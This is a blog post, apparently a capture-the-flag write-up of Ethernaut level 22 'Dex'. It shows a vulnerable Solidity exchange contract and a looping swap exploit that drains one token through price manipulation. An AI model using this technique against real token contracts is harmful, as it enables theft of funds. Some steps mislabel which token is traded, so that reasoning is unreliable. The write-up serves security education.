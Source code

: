 ###########################
Ethernaut 22: Dex
###########################
:date: 2023-10-29
:slug: ethernaut-22-dex
:summary: they see me roundin' \\n they hatin'
:tags: programming
:author: capu
:featured_image:

Objective
=========
Drain the contract of one of one of the tokens

Code
====
.. code-block:: solidity
    :linenos: inline
    :hl_lines: 54 55

    contract Dex is Ownable {
        address public token1;
        address public token2;

        constructor() {}

        function setTokens(
            address _token1,
            address _token2
        ) public onlyOwner {
            token1 = _token1;
            token2 = _token2;
        }

        function addLiquidity(
            address token_address,
            uint256 amount
        ) public onlyOwner {
            IERC20(token_address).transferFrom(
                msg.sender, address(this),
                amount
            );
        }

        function swap(address from, address to, uint256 amount) public {
            require(
                (from == token1 && to == token2) ||
                (from == token2 && to == token1)
                , "Invalid tokens"
            );
            require(
                IERC20(from).balanceOf(msg.sender) >= amount,
                "Not enough to swap"
            );
            uint256 swapAmount = getSwapPrice(from, to, amount);
            IERC20(from).transferFrom(
                msg.sender,
                address(this),
                amount
            );
            IERC20(to).approve(address(this), swapAmount);
            IERC20(to).transferFrom(
                address(this),
                msg.sender,
                swapAmount
            );
        }

        function getSwapPrice(
            address from,
            address to,
            uint256 amount
        ) public view returns (uint256) {
            return ((amount * IERC20(to).balanceOf(address(this)))
            / IERC20(from).balanceOf(address(this)));
        }
    }

The starting conditions are

.. code-block:: plain
    :linenos: inline
    :hl_lines: 

    balances of the dex contract:
        token1: 100
        token2: 100

    balances of the attacker:
        token1: 10
        token2: 10

Solution
========
the amount that I'll receive by sending ``amount`` of token ``from`` is defined
on lines 54-55 of the contract, as follows:

.. code-block:: solidity
    :linenos: inline
    :hl_lines: 

    (amount * IERC20(to).balanceOf(address(this)))
        / IERC20(from).balanceOf(address(this));

Some examples

- if I trade ``9 token1``, I'll receive ``9 token2``: ``9 *100/100 == 9``
- if I then trade my remaining ``1 token1``, I'll receive ``1 token2``: ``1*109/91 == 1.197``, but integer aritmethic will truncate it to 1.

This price equation tries to arrive at a 'fair' price by making tokens that are
more scarce to the contract more expensive to purchase.

The workaround then might be in artificially making one of the tokens more
valuable in the contract, by just sending it more of the other without receiving
anything in return. Consider the following example:

1. I send ``10 token1`` to the DEX contract with a regular ERC20 transfer
2. I trade my ``10 token2`` for... ``10*110/100 == 11 token2``. I got a better
   price than if I traded without sending first! however, I'm now holding 11
   tokens total, instead of the 20 I'd be holding if I either skipped step 1 or
   didn't trade altogether. This'd only make sense if I could...
3. Trade my ``11 token2`` for... ``11*120/110 == 12 token2`` 🤑

I can keep on doing that until I fully drain the contract of funds!

.. code-block:: solidity
    :linenos: inline

    SwappableToken tkn1 = SwappableToken(target.token1());
    SwappableToken tkn2 = SwappableToken(target.token2());
    target.approve(address(target), 1000);
    tkn2.transfer(address(target), 10);
    uint i = tkn1.balanceOf(attacker);
    while (i<100 && i>0) {
        target.swap(address(tkn1), address(tkn2), i);
        i = min(
            tkn2.balanceOf(attacker),
            tkn2.balanceOf(address(target))
        );
        if(i == 0 ) break;
        target.swap(address(tkn2), address(tkn1), i);
        i = min(
            tkn1.balanceOf(attacker),
            tkn1.balanceOf(address(target))
        );
    }

Although I have to take care to not ask for a trade that the contract cannot
fulfill due to lack of funds. That's why the ``break`` is there and why I have
to choose between the minimum of my balance and the contract's
